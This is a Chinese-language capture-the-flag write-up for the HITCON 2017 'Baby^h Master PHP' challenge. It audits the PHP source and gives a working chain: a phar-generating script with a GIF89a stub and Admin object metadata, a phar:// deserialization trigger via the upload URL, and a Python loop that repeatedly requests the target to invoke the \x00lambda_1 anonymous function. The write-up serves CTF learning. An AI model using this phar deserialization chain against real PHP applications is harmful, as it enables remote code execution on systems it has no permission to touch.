

# \[HITCON 2017]Baby^h Master PHP

## \[HITCON 2017]Baby^h Master PHP

## 考点

* 代码审计
* create\_function生成的匿名函数特性
* phar反序列化
*

## wp

### 第一段：初始条件

看一下初始的条件

```php
$FLAG = create_function("", 'die(`/read_flag`);'); 
$SECRET = `/read_secret`;
$SANDBOX = "/var/www/data/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
@mkdir($SANDBOX);
@chdir($SANDBOX);
```

首先回顾一下`create_function`是啥

`create_function('$a','echo $a;')`等价于创建一个匿名函数，它的名字是`\x00lambda_%d`

```php
eval(
function __lambda_func($a){
	echo $a; 
}
)
```

第一行等同于

```php
eval(
function __lambda_func(){
	die(`/read_flag`);
}
)
```

这个初始过程是：获取FLAG，获取密钥，生成沙盒

防止在公共靶机下出现啥bug

### 第二段：输入

看一下输入在哪儿

```php
$mode = $_GET["m"];
if ($mode == "upload") {
    upload(check_session());
} else if ($mode == "show") {
    show(check_session());
} else {
    echo "IP:".$_SERVER["REMOTE_ADDR"];
    echo "Sandbox:"."/var/www/data/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    highlight_file(__FILE__);
}
```

有三种模式，`upload`、`show`以及其它

### 第三段：upload模式

无论哪个模式都会执行`check_session`函数，那就看一下

```php
function check_session() {
    global $SECRET;
    $data = $_COOKIE["session-data"];
    list($data, $hmac) = explode("-----", $data, 2);
    if (!isset($data, $hmac) || !is_string($data) || !is_string($hmac)) {
        die("Bye");
    }

    if (!hash_equals(hash_hmac("sha1", $data, $SECRET), $hmac)) {
        die("Bye Bye");
    }

    $data = unserialize($data);
    if (!isset($data->avatar)) {
        die("Bye Bye Bye");
    }

    return $data->avatar;
}
```

先获取`cookie`中的`session-data`，我这里是`O%3A4%3A%22User%22%3A1%3A%7Bs%3A6%3A%22avatar%22%3Bs%3A46%3A%22%2Fvar%2Fwww%2Fdata%2F0f3cd5989359bdd5a04508bf19418e31%22%3B%7D-----73dcb35650323907c141d8988a5d0d962396fbbe`

那它怎么来的呢，可以看到，`data`是`User`类序列化的内容，而`hmac`是`hash_hmac("sha1", $data, $SECRET)`的结果

```php
if (!isset($_COOKIE["session-data"])) {
    $data = serialize(new User($SANDBOX));
    $hmac = hash_hmac("sha1", $data, $SECRET);
    setcookie("session-data", sprintf("%s-----%s", $data, $hmac));
}
class User {
    public $avatar;
    function __construct($path) {
        $this->avatar = $path;
    }
}
```

然后将cookie进行分割，还原出`data`和`hmac`。并对`data`和`hmac`再做一次校验，验证`hmac`是否由`hash_hmac("sha1", $data, $SECRET)`生成。是的话对`data`进行反序列化，然后返回它的`avatar`属性。

`upload`模式下，还会再去执行`upload()`函数，这里的`path`参数就是自己的沙盒地址

```php
function upload($path) {
    $data = file_get_contents($_GET["url"] . "/avatar.gif");
    if (substr($data, 0, 6) !== "GIF89a") {
        die("Fuck off");
    }

    file_put_contents($path . "/avatar.gif", $data);
    die("Upload OK");
}
```

然后从外部获取`url`下的avatar.gif，覆盖掉沙盒的那个avatar.gif

### 第四段：show模式

`show`模式下，在`check_session()`获取沙盒地址后，判断这个地址下的avatar.gif存不存在，存在的话就返回这个avatar.gif

```php
function show($path) {
    if (!file_exists($path . "/avatar.gif")) {
        $path = "/var/www/html";
    }

    header("Content-Type: image/gif");
    die(file_get_contents($path . "/avatar.gif"));
}
```

### 第五段：查漏

整体看完了，发现`Admin`类好像没有用到，这里大概就是最终要利用的地方

```php
class Admin extends User {
    function __destruct() {
        $random = bin2hex(openssl_random_pseudo_bytes(32));
        eval("function my_function_$random() {"
            . "  global \$FLAG; \$FLAG();"
            . "}");
        $_GET["lucky"]();
    }
}
```

`__destruct`里面定义一个随机函数，执行这个随机函数可以获取flag，但是直接执行初始的匿名函数就可以了

### 思路

很明显的phar反序列化，生成`Admin`类的phar文件，通过`upload`函数触发phar反序列化，然后执行匿名函数

```php
<?php
class Admin{
	public $avatar='xyz';
}
$a = new Admin();

$phar = new Phar('123.phar',0,'123.phar');
$phar->startBuffering();
$phar->setStub('GIF89a<?php __HALT_COMPILER(); ?>');


$phar->setMetadata($a);
$phar->addFromString('text.txt','test');
$phar->stopBuffering();
```

最后一段引用官方wp原文

> 但是我们并不能知道当前的匿名函数到底有多少个, 因为每访问一次题目就会生成一个匿名函数; 最后就引出了最后一个考点, Apache-prefork模型(默认模型)在接受请求后会如何处理,首先Apache会默认生成5个child server去等待用户连接, 默认最高可生成256个child server, 这时候如果用户大量请求, Apache就会在处理完MaxRequestsPerChild个tcp连接后kill掉这个进程,开启一个新进程处理请求(这里猜测Orange大大应该修改了默认的0,因为0为永不kill掉子进程 这样就无法fork出新进程了) 在这个新进程里面匿名函数就会是从1开始的了

1. 生成phar放在自己的服务器上
2. 上传文件`?c=upload&url=http://ip`
3. 写个脚本一直请求`?m=upload&url=phar:///var/www/data/***&lucky=%00lambda_1`

```python
import requests

url = 'http://12c6a169-a23b-4d57-bb1c-b16d6513f0ba.node3.buuoj.cn/?m=upload&url=phar:///var/www/data/0f3cd5989359bdd5a04508bf19418e31&lucky=%00lambda_1'

header = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0',
    'Cookie': 'UM_distinctid=1773491acc0ff-0d74662bd23926-12666d4a-144000-1773491acc126b; session-data=O%3A4%3A%22User%22%3A1%3A%7Bs%3A6%3A%22avatar%22%3Bs%3A46%3A%22%2Fvar%2Fwww%2Fdata%2F0f3cd5989359bdd5a04508bf19418e31%22%3B%7D-----73dcb35650323907c141d8988a5d0d962396fbbe'
}
while True:
    r =requests.get(url,headers=header)
    if 'flag' in r.text:
        print(r.text)
```


